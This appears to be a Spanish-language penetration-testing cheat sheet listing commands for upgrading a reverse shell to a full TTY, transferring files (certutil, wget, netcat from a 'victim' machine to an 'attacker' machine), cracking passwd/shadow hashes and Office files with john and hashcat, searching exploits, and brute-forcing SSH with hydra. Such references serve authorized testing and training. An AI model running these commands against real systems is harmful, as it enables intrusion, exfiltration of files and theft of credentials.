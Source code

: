  
### Tratamiento de la TTY

```python
	script /dev/null -c bash # Lanza pseudoconsola
	
	[ctrl+z] # Suspende la shell actual
	
	stty raw -echo
	
	fg # Recupera la shell suspendida
	
	reset "xterm" # Reinicia la configuración de la terminal
	
	xterm # Especifica el tipo de terminal
	
	export TERM=xterm # Asigna xterm a la variable TERM
	
	export SHELL=bash # Asigna bash a la variable SHELL
	
	stty rows <VALOR_FILAS> columns <VALOR_COLUMNAS>
	
	Para ver el valor de filas y columnas de nuestra terminal se utiliza el comando -> stty -a
 ```
 
### TTY Shell con Python

```python
	python -c 'import pty; pty.spawn("/bin/sh")'
```
### Descompresión

```python
#.tar
	
	tar -xf archive.tar.gz
	
#.gz
	
	gzip -d file.gz
	
#.zip
	
	unzip file.zip
```
### Comparación de archivos

```python
	diff -c scan-a.txt scan-b.txt
	
	comm scan-a.txt scan-b.txt
```
### Transferencia de archivos

```python 
#HTTP
	
#Servidor
	
	python3 -m http.server
	
	python -m SimpleHTTPServer

#Cliente
	
	certutil.exe -urlcache -f http://<SERVER_IP>/file.txt file.txt
	
	wget http://<SERVER_IP>/file.txt
```
### FTP
```python
#Servidor
	
	python3 -m pyftpdlib
	
#Cliente
	
	ftp <SERVER_IP>
```
### Netcat
```python

#Servidor

	nc 10.10.14.2 4242 < file.tgz

#Cliente

	nc -lvnp 4242 > file.tgz

	maquina atacante
	nc -lvnp "Ports" > "archivo"
----------------------------------------------------------------------------------------------------------------------------------------------------------
	maquina victima
	nc "IP" "Ports" < "archivo"

```
### ssh

```python
scp -r ''USER@IP:/ruta/* . * ruta donde queremos copiar(.)''
```
### Sniffing

```python
	tcpdump -i tun0 icmp -n
 
```
### Cracking

```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hash
	
	hashcat -a 0 -m 1600 hash /usr/share/wordlists/rockyou.txt
```

### Cracking de contraseñas con password y shadow

```python 
	unshadow <Archivo_passwd> <Archivo_shadow> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
```
### Cracking de documentos encriptados de Office

```python 
	office2john.py <Ruta_Documento> > <Archivo_hash>
	
	john --wordlist=<Ruta_Diccionario> <Archivo_hash>
``` 
### Extraer información de imágenes

```python
	steghide --extract -sf archivo.png/jpg
```
### Búsqueda de exploits

```python
	searchsploit <SOFTWARE>
	
	searchsploit -x <ID_EXPLOIT> # Inspeccionar el código del exploit
	
	searchsploit -m <ID_EXPLOIT> # Mueve el exploit al directorio actual de trabajo
```
### Buscador de archivos

```python
	find / -iname nombre_archivo
```
### Fuerza bruta con hydra para ssh

```python
	hydra 127.0.0.1 ssh -s 22 -L users -P worstpasswords.txt -f -vV 
```

### Cambio de usuario sobre archivos 

```python
	sudo chown root:root nombre_del_archivo
```
